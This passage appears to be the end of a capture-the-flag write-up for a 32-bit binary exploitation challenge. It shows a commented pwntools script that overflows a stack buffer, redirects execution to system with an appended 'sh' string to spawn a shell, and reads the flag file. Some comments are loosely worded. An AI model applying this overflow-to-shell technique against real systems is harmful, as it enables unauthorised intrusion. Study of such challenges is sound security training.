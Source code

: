 ```python
# first character of input so we can tack our command on the end.
# The user input is a global variable so we can easily know its
# address (PIE is disabled, so it's the same address every time the
# program runs).
p.sendline(b'7sh')
# The `sh` string starts 1 byte into the input we gave the program
command = user_input + 1

"""Sending input to lore"""

# The input buffer is 14 bytes, 4 bytes are used by relro (on 32-bit)
# and 4 bytes are used to store the saved rbp
payload = b'a' * (14 + 4 + 4)
# The return address is stored after the saved rbp
payload += p32(system_addr)
# When using the ROP technique, the function you to return to
# essentially inherits the stack frame of the exploited function. This
# means that system will expect its first argument (the command) to be
# located 8 bytes before the current stack frame (note that lower in
# the stack means higher memory addresses). This essentially means
# that we need to skip 4 bytes to get the command to end up 8 bytes
# before the stack frame (ebp + 8).
payload += b"aaaa"
payload += p32(command)

# Send the payload to the program and pray
p.sendline(payload)

# Interact with the shell we've popped, yay!
p.interactive()
```
Figure 18: *the exploit.*

The specifics are detailed by the comments in the code, but on a high level the approach was to
overflow the buffer, overwrite the saved return address with the known address of system, and
then write a pointer to the string `sh` to the address 4 bytes past the end of the saved return
address. To get a string containing `sh` we can simply append `sh` to out input to the `menu`
function (it only checks the first character). This works because `menu` stores its input in
a global variable (don't ever do that please) which always has the same address every time the
program gets run (remember, PIE is disabled). After running the exploit, we get an interactive
shell and can look around for a flag. A quick `ls` reveals the `flag.txt` file in the current
directory, which we can read using `cat flag.txt`.

Flag: `SOOCTF{H0p3_1_g3t_4_b3tt3r_gR0up_n3xt_t1m3}` (I hope you do too)

### Conclusion

I haven't done a 32-bit ROP challenge in a while so this was a good refresher, but it didn't
take very long, I wish there were some harder pwn challenges in the CTF!

---
